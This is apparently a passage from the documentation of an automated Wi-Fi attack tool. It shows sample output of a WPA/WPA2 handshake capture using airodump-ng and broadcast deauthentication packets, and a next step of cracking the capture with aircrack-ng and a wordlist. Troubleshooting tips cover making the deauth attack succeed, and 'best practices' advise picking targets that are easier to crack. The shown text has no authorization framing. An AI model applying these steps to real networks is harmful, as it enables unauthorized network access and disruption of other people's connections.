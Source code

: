 ```
🎯 Target: AA:BB:CC:DD:EE:FF on channel 6
Starting automated WPA/WPA2 handshake capture...
⚠ Maximum capture time: 60 seconds
ℹ 📡 Starting packet capture with airodump-ng...
ℹ 💥 Sending 5 deauth packets to AA:BB:CC:DD:EE:FF (broadcast)
ℹ 👂 Monitoring for WPA handshake...
ℹ 💥 Sending 5 deauth packets to AA:BB:CC:DD:EE:FF (broadcast)
✓ ✅ WPA handshake captured from AA:BB:CC:DD:EE:FF!
✓ 🎉 Handshake successfully captured!
✓ 📁 File saved to: handshake_20251014_192345-01.cap
ℹ 📝 Next step: Crack with: aircrack-ng -w <wordlist> handshake_20251014_192345-01.cap
```

## Troubleshooting

### No Handshake Captured

**Possible causes:**
1. **No clients connected**: AP has no active clients
   - Solution: Wait for clients to connect or try another target

2. **Clients didn't reconnect**: Deauth didn't trigger reconnection
   - Solution: Increase deauth count in config.json
   - Solution: Try targeting specific client MAC

3. **Channel interference**: Signal interference on channel
   - Solution: Ensure you're close to the AP
   - Solution: Check for other APs on same channel

4. **Wrong interface mode**: Interface not in monitor mode
   - Solution: Run `enable_monitor_mode()` first

### Process Cleanup Issues

If processes don't terminate cleanly:

```python
# Manual cleanup
import subprocess

# Kill all aircrack-ng suite processes
subprocess.run(["pkill", "airodump-ng"])
subprocess.run(["pkill", "aireplay-ng"])

# Restart NetworkManager
subprocess.run(["systemctl", "restart", "NetworkManager"])
```

## Best Practices

### 1. Target Selection
- ✅ Choose networks with active clients
- ✅ Select 2.4GHz networks (better range)
- ✅ Prefer WPA2 over WPA3 (easier to crack)
